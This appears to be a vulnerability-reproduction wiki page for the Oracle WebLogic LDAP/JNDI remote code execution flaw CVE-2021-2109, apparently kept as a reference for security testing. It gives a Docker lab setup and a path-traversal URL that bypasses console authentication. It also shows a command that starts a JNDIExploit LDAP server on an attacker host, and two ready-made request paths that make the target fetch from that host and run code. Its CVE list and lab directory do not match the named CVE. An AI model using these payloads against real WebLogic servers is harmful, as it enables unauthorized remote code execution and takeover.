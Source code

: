 ```yaml
---
Title: Weblogic LDAP Remote Code Execution Vulnerability CVE-2021-2109
---
```


# Weblogic LDAP Remote Code Execution Vulnerability CVE-2021-2109

## Vulnerability Description

On January 20, 2021, Green Network Technology Monitor discovered that Oracle officially released the Critical Patch Update announcement for January 2021. A total of 329 vulnerabilities of varying degrees were fixed, including 7 serious vulnerabilities affecting WebLogic (CVE-2021-1994, CVE-2021-2047, CVE-2021-2064, CVE-2021-2108, CVE-2021-2075, CVE-2019-17195, CVE-2020-14756). Unauthenticated attackers can achieve remote code execution through this vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 10.3.6.0.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 12.1.3.0.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 12.2.1.3.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 12.2.1.4.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 14.1.1.0.0</span>

## Environment construction

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

Visit `https://xxx.xxx.xxx.xxx:7001` and it's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122357513-3368f5c9-1557-48c9-965c-478ae4d5867a.png)



## Vulnerability reappears

Visit the URL `https://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122379832-ab7a422e-fc91-4e0a-8c74-ae1b27ee365a.png)

If this page is not authorized to access and it may have a vulnerability within the scope of impact, download the LDAP startup script required for the vulnerability attack

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122389252-7e57ec2f-7b8c-40a6-9a93-af57d117aeec.png)



Download to server to start

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122394942-2d2aefd9-5ed1-4d18-b721-f1b7c936263b.png)

Then execute the command without authorization in Weblogic

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```


</a-alert>

<br/>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122414874-e7efeca4-04b4-46a6-b4d7-273500602833.png)

You can use this POC when logging in to the background. If you are not authorized, use the above

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```
